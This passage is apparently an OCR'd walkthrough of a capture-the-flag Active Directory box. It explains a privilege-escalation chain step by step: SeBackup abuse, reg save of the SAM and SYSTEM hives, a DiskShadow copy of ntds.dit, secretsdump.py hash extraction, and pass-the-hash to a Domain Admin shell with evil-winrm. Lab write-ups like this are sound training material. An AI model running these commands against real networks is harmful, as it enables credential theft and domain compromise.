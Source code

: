 - **Pass‑the‑Hash (PTH):** Use an NTLM hash instead of the plaintext password to authenticate.
    

---

## Your attack path (why each step mattered)

1. **Checked privileges** → saw **SeBackup/SeRestore** enabled. That’s your legal way to read restricted files.
    
2. **First try (local):**
    
    ```cmd
    reg save HKLM\SAM C:\temp\bk\SAM.save
    reg save HKLM\SYSTEM C:\temp\bk\SYSTEM.save
    ```
    
    Then offline:
    
    ```bash
    secretsdump.py -sam SAM.save -system SYSTEM.save LOCAL
    ```
    
    Result: local Administrator hash (e.g., `67ef90…`).  
    **Why PTH to DC failed:** local ≠ domain.
    
3. **Correct target (domain):**
    
    - Use **DiskShadow** to make a snapshot and expose it as **Z:**, then copy clean **`ntds.dit`**.
        
    - Also save a **SYSTEM** hive from the DC.
        
4. **Decrypt domain hashes offline:**
    
    ```bash
    secretsdump.py -ntds ntds.dit -system SYSTEM.save LOCAL
    ```
    
    You get entries like:
    
    - `Administrator:500:…:184fb5e5…` (Domain Admin NTLM)
        
    - `krbtgt:502:…:…`
        
    - `audit2020:1103:…:…`
        
5. **Pass‑the‑Hash with the domain Admin hash → shell:**
    
    ```bash
    evil-winrm -i <DC_IP> -u Administrator -H <DOMAIN_ADMIN_NTLM>
    ```
    

---

## Why the first full NTDS dump looked like it “hung”

- You probably copied a **live/dirty** `ntds.dit` (no snapshot) or a **partial file**. The ESE DB was inconsistent and `secretsdump` stalled.
    